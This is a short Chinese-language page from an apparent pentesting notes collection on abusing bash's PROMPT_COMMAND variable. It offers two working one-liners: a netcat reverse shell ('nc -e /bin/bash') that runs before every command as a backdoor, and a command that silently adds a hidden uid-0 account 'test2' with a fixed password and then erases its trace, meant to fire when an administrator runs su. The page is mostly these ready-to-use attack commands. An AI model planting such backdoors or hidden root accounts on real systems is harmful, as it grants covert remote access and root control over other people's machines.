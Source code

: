 ```yaml
---
title: "PROMPT_COMMAND"
id: zhfly3507
---
```


## PROMPT_COMMAND

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。这样就可以利用他执行的命令来留后门。

```
export PROMPT_COMMAND="nc -e /bin/bash 127.0.0.1 6666 &" 
```

![image](../img/84ed0636ef0aaf99e762595c748ec6ad.png)

**提权**

如果当前用户是低权账号，管理员又经常使用su等、但是自己不知道密码。就可以来使用这种方法。利用sudo的权限提升来新建一个uid为0的用户

```
export PROMPT_COMMAND="/usr/sbin/useradd -o -u 0 test2 &>/dev/null && echo test2:123456 | /usr/sbin/chpasswd &>/dev/null && unset PROMPT_COMMAND" 
```

![image](../img/44bc29f4d6c28d0fbdf02677892c30ed.png)

![image](../img/68f39b93e26aeadf3d09d3c95ab49f7d.png)
